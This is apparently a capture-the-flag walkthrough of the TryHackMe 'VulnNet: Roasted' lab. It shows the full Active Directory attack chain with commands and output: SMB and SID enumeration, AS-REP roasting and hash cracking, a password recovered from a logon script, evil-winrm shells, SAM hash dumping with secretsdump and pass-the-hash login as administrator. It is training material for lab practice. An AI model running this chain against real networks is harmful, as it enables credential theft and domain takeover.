

# VulnNet: Roasted

> ************Instructions************
> 
> 
> VulnNet Entertainment just deployed a new instance on their network with the newly-hired system administrators. Being a security-aware company, they as always hired you to perform a penetration test, and see how system administrators are performing.
> 
> - Difficulty: Easy
> - Operating System: Windows
> 
> This is a much simpler machine, do not overthink. You can do it by following common methodologies.
> 
> Note: It *might* take up to 6 minutes for this machine to fully boot.
> 

# Overview

### SMB

SMB is a network file-sharing protocol that allows applications on networked computers to read and write files and request services from ‘server’ programs. The SMB protocol can be used on top of the **TCP/IP protocol** along with other network protocols.

### AS-REP Roasting

AS-REP Roasting is a technique that enables adversaries to steal the password hashes of user accounts that have Kerberos pre-authentication disabled, which they can then attempt to crack offline

### Kerberoasting attack

Kerberoasting is a post-exploitation attack technique that attempts to obtain a password hash of an Active Directory account that has a Service Principal Name (“SPN”).

### DCSync Attack

The DCSYNC attack works as follows:

1. The attacker discovers a domain controller to request replication.
2. The attacker requests user replication using the GetNCChanges
3. The DC returns replication data to the requestor, including password hashes.


### Tools

`smbclient` is a client that can 'talk' to an SMB/CIFS server. It offers an interface similar to that of the ftp program. Operations include things like getting files from the server to the local machine, putting files from the local machine to the server, retrieving directory information from the server and so on.

```tsx
smbclient -L \\\\{IP_ADDESS}
smbclient \\\\{IP_ADDRESS}\\{WORKGROUP}
```

`smbmap` enumerates samba share drives across an entire domain, lists share drives, drive permissions, share contents, upload/download functionality, file name auto-download pattern matching, and even execute remote commands

```tsx
smbmap -H {IP_ADDRESS/HOST} -u {USERNAME} -p {PASSWORD}
```

`GetNPUsers.py` list and get TGTs for those users that have the property '*Do not require Kerberos preauthentication*' set (UF_DONT_REQUIRE_PREAUTH)

```tsx
python GetNPUsers.py {DOMAIN} -dc-ip {IP_ADDRESS} -usersfile {user-wordlist}
```

`lookupsid.py` performs bruteforcing of Windows SID’s to identify users/groups on the remote target

```bash
python lookupsid.py {DOMAIN}/{USERNAME}:{PASSWORD}@{IP_ADDRESS}
#or
python lookupsid.py {USERNAME}@{IP_ADDRESS} #with USERNAME is anonymous
```

`secretsdump.py` perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include: reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit

```tsx
python secretsdump.py {DOMAIN}/{USERNAME}:{PASSWORD}@{IP_ADDRESS}
#or
python secretsdump.py {USERNAME}@{IP_ADDRESS}
```

### Roadmap



# Enumeration

### Nmap

```tsx
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- --min-rate 5000 -Pn 10.10.168.188
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 03:47 EDT
Nmap scan report for 10.10.168.188
Host is up (0.25s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49677/tcp open  unknown
49695/tcp open  unknown
49778/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 39.61 seconds
```

```tsx
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A -T4 -Pn -p 53,88,135,138,389,445,464,593,636,3268,3269,5985,9389 10.10.168.188
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 03:47 EDT
Nmap scan report for 10.10.168.188
Host is up (0.25s latency).

PORT     STATE    SERVICE       VERSION
53/tcp   open     domain        Simple DNS Plus
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-10 07:48:26Z)
135/tcp  open     msrpc         Microsoft Windows RPC
138/tcp  filtered netbios-dgm
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp open     tcpwrapped
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open     mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 44s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-08-10T07:49:00
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT       ADDRESS
1   254.54 ms 10.8.0.1
2   253.63 ms 10.10.168.188

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.97 secondss
```

```tsx
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -A -T4 -Pn -p 49666-49778 10.10.168.188                                          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-10 03:54 EDT
Nmap scan report for 10.10.168.188
Host is up (0.25s latency).
Not shown: 106 filtered tcp ports (no-response)
PORT      STATE SERVICE    VERSION
49666/tcp open  msrpc      Microsoft Windows RPC
49668/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49669/tcp open  msrpc      Microsoft Windows RPC
49670/tcp open  msrpc      Microsoft Windows RPC
49677/tcp open  msrpc      Microsoft Windows RPC
49695/tcp open  msrpc      Microsoft Windows RPC
49778/tcp open  msrpc      Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 49677/tcp)
HOP RTT       ADDRESS
1   252.93 ms 10.8.0.1
2   253.09 ms 10.10.168.188

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.94 seconds
```

### SMB

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ smbclient -L \\\\10.10.168.188
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.168.188 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Only `VulnNet-Business-Anonymous` and `VulnNet-Enterprise-Anonymous` allow ******anonymous access******:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ smbclient \\\\10.10.168.188\\VulnNet-Business-Anonymous
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Business-Manager.txt                A      758  Thu Mar 11 20:24:34 2021
  Business-Sections.txt               A      654  Thu Mar 11 20:24:34 2021
  Business-Tracking.txt               A      471  Thu Mar 11 20:24:34 2021

                8771839 blocks of size 4096. 4536767 blocks available
smb: \> mget
nothing to mget
smb: \> mget *
Get file Business-Manager.txt? y
getting file \Business-Manager.txt of size 758 as Business-Manager.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
Get file Business-Sections.txt? y
getting file \Business-Sections.txt of size 654 as Business-Sections.txt (0.6 KiloBytes/sec) (average 0.5 KiloBytes/sec)
Get file Business-Tracking.txt? y
getting file \Business-Tracking.txt of size 471 as Business-Tracking.txt (0.4 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \> exit

┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ smbclient \\\\10.10.168.188\\VulnNet-Enterprise-Anonymous
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Mar 12 21:46:40 2021
  ..                                  D        0  Fri Mar 12 21:46:40 2021
  Enterprise-Operations.txt           A      467  Thu Mar 11 20:24:34 2021
  Enterprise-Safety.txt               A      503  Thu Mar 11 20:24:34 2021
  Enterprise-Sync.txt                 A      496  Thu Mar 11 20:24:34 2021

                8771839 blocks of size 4096. 4536896 blocks available
smb: \> mget *
Get file Enterprise-Operations.txt? y
getting file \Enterprise-Operations.txt of size 467 as Enterprise-Operations.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
Get file Enterprise-Safety.txt? y
getting file \Enterprise-Safety.txt of size 503 as Enterprise-Safety.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
Get file Enterprise-Sync.txt? y
getting file \Enterprise-Sync.txt of size 496 as Enterprise-Sync.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \> exit
```

### Users

Use `lookupsid.py` to identify users/groups on the remote target

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ python3 lookupsid.py anonymous@10.10.168.188           
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 10.10.168.188
[*] StringBinding ncacn_np:10.10.168.188[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

I use `grep` to filter only the ****************username**************** (`SidTypeUser`):

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ python3 lookupsid.py anonymous@10.10.168.188 | grep "(SidTypeUser)"
Password:
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

# Exploit

I extract the user into a wordlist file:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ cat usernames.txt      
Administrator
Guest
krbtgt
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```

You can use this syntax to cut the strings and parse the usernames only to a specific file instead of manually copying and pasting each of the username from the result:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ python3 lookupsid.py anonymous@10.10.26.214 | grep "(SidTypeUser)" | tee users.txt
Password:
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)

┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ cat users.txt | gawk -F '\' '{ print $2 }' | gawk -F ' ' '{ print $1 }' | tee users.txt
Administrator
Guest
krbtgt
WIN-2BO8M1OE1M1$
enterprise-core-vn
a-whitehat
t-skid
j-goldenhand
j-leet
```

Then, use `GetNPUsers.py` to perform the ************************AS-REP Roasting************************ attack which can check if there are any valid username that don’t require ********************Kerberos pre-authentication******************** enabled:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ python3 GetNPUsers.py vulnnet-rst.local/ -no-pass -usersfile usernames.txt -dc-ip 10.10.168.188
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:c3518284d3a39f60305e10c0e7c52131$1541ebd1f06001b3acc630ed2271c4abccf184de1b349ac7e478830c8a318d1a7bac3f921c29fae1404e731acd4e436c4513ceb07eb72af27ec833aa45f3dd819cf34b0647a63d8a4840d5b3475beebf8541a436fce4f6afbca6d02b374208e1b6dddc77029b79f04f0dc0797d1cc4318eb627820291c995a7a8d7a2e1024085d33e95ffc8b8fe664bb14c566c0fe5e8d6b4101fdd020972120136f50cfa1418e1bdb2f1860a620141ff241b2769ebb2bc6f268dec3475885655110e38859e895f1fe87ee7ba2ff0464314c7eb4d7a8c816f956725dde72abba71fcc887ad1d14ec8f408d88e055aeb876f96ace8d882c5f5204bdf9e
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Only user `t-skid` could be found with hash password → Pass the hash into a new file:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ cat user.hash    
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:c3518284d3a39f60305e10c0e7c52131$1541ebd1f06001b3acc630ed2271c4abccf184de1b349ac7e478830c8a318d1a7bac3f921c29fae1404e731acd4e436c4513ceb07eb72af27ec833aa45f3dd819cf34b0647a63d8a4840d5b3475beebf8541a436fce4f6afbca6d02b374208e1b6dddc77029b79f04f0dc0797d1cc4318eb627820291c995a7a8d7a2e1024085d33e95ffc8b8fe664bb14c566c0fe5e8d6b4101fdd020972120136f50cfa1418e1bdb2f1860a620141ff241b2769ebb2bc6f268dec3475885655110e38859e895f1fe87ee7ba2ff0464314c7eb4d7a8c816f956725dde72abba71fcc887ad1d14ec8f408d88e055aeb876f96ace8d882c5f5204bdf9e
```

And use `johntheripper` to crack the hash:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ john -w=/home/kali/Downloads/rockyou.txt user.hash    
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tj072889*        ($krb5asrep$23$t-skid@VULNNET-RST.LOCAL)     
1g 0:00:00:02 DONE (2023-08-10 04:38) 0.4048g/s 1286Kp/s 1286Kc/s 1286KC/s tjallin3..tj021502
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now get back to the SMB Share! `smbclient` does not display the **********************Access Permissions********************** of a specific user to each **********Shared Folder********** (`Disk`):

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ smbclient -L \\\\10.10.73.84 -U anonymous   
Password for [WORKGROUP\anonymous]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.73.84 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ smbclient -L \\\\10.10.73.84 -U t-skid       
Password for [WORKGROUP\t-skid]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
        VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.73.84 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

Instead of using `smbclient`, we can use `smbmap` to have more details view:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ smbmap -H 10.10.73.84 -u anonymous
[+] Guest session       IP: 10.10.73.84:445     Name: 10.10.73.84                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing

┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ smbmap -H 10.10.73.84 -u t-skid -p tj072889*
[+] IP: 10.10.73.84:445 Name: 10.10.73.84                                       
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
```

As you can see, now the user `t-skid` has the permission `READ ONLY` on the `NETLOGON` shared folder → Let’s access it:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ smbclient \\\\10.10.73.84\\NETLOGON -U t-skid  
Password for [WORKGROUP\t-skid]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Mar 16 19:15:49 2021
  ..                                  D        0  Tue Mar 16 19:15:49 2021
  ResetPassword.vbs                   A     2821  Tue Mar 16 19:18:14 2021

                8540159 blocks of size 4096. 4187698 blocks available
smb: \> get ResetPassword.vbs 
getting file \ResetPassword.vbs of size 2821 as ResetPassword.vbs (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> exit
```

The `ResetPassword.vbs` is located on this directory → I transfer it to the local machine and read its content:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ cat ResetPassword.vbs                   
Option Explicit

Dim objRootDSE, strDNSDomain, objTrans, strNetBIOSDomain
Dim strUserDN, objUser, strPassword, strUserNTName

' Constants for the NameTranslate object.
Const ADS_NAME_INITTYPE_GC = 3
Const ADS_NAME_TYPE_NT4 = 3
Const ADS_NAME_TYPE_1779 = 1

If (Wscript.Arguments.Count <> 0) Then
    Wscript.Echo "Syntax Error. Correct syntax is:"
    Wscript.Echo "cscript ResetPassword.vbs"
    Wscript.Quit
End If

strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"

' Determine DNS domain name from RootDSE object.
Set objRootDSE = GetObject("LDAP://RootDSE")
strDNSDomain = objRootDSE.Get("defaultNamingContext")
[REDACTED...]
```

Great! I found the creds of user `a-whitehat`. Now it’s time to get the shell!

# Gain Access - Get first flag

Use `evil-winrm` built-in tool on kali linux to access the target machine:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ evil-winrm -i 10.10.73.84 -u a-whitehat -p 'bNdKVkjv3RR9ht'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                 

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                   

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\a-whitehat\Documents> whoami
vulnnet-rst\a-whitehat
```

Find the `user.txt` file in the current directory and get the user flag:

```tsx
*Evil-WinRM* PS C:\Users\enterprise-core-vn> tree /f
Folder PATH listing
Volume serial number is 58D0-66AA
C:.
ÃÄÄÄDesktop
³       user.txt
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
ÃÄÄÄLinks
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\enterprise-core-vn> more Desktop\user.txt
THM{726b7c0baaac1455d05c827b5561f4ed}
```

# Privilege Escalation → administrator

Check the current user `a-whitehat` in which group member:

```tsx
*Evil-WinRM* PS C:\Users\Administrator> net user a-whitehat
User name                    a-whitehat
Full Name                    Alexa Whitehat
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            3/11/2021 12:47:12 PM
Password expires             Never
Password changeable          3/12/2021 12:47:12 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```

The user `a-whithat` is in **domain admin**, we can perform a **DCSync attack** to get the administrator hash.

Use `secretsdump.py` to perform the **************************DCSync attack**************************:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py a-whitehat@10.10.73.84
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
```

Notice that the format of the result is `uid:rid:lmhash:nthash` → the last string displays in each line is the `nthash` that we can use to login.

Moreover, the `evil-winrm` also provide the `NTHash` option to login despite of the `-p` Password:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ evil-winrm -h | grep "\-H"                                                      
Usage: evil-winrm -i IP -u USER [-s SCRIPTS_PATH] [-e EXES_PATH] [-P PORT] [-p PASS] [-H HASH] [-U URL] [-S] [-c PUBLIC_KEY_PATH ] [-k PRIVATE_KEY_PATH ] [-r REALM] [--spn SPN_PREFIX] [-l]
    -H, --hash HASH                  NTHash
```

Use the previous found hash to access the target system as **************************administrator************************** user:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/VulnNet_Roasted]
└─$ evil-winrm -i 10.10.73.84 -u administrator -H 'c2597747aa5e43022a3a3049a3c3b09d'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                 

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                                                                                                   

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
vulnnet-rst\administrator
```

Then get the admin flag:

```tsx
*Evil-WinRM* PS C:\Users\Administrator> tree /f
Folder PATH listing
Volume serial number is 58D0-66AA
C:.
ÃÄÄÄ3D Objects
ÃÄÄÄContacts
ÃÄÄÄDesktop
³       system.txt
³
ÃÄÄÄDocuments
ÃÄÄÄDownloads
ÃÄÄÄFavorites
³   ³   Bing.url
³   ³
³   ÀÄÄÄLinks
ÃÄÄÄLinks
³       Desktop.lnk
³       Downloads.lnk
³
ÃÄÄÄMusic
ÃÄÄÄPictures
ÃÄÄÄSaved Games
ÃÄÄÄSearches
ÀÄÄÄVideos
*Evil-WinRM* PS C:\Users\Administrator> more Desktop\system.txt
THM{16f45e3934293a57645f8d7bf71d8d4c}
```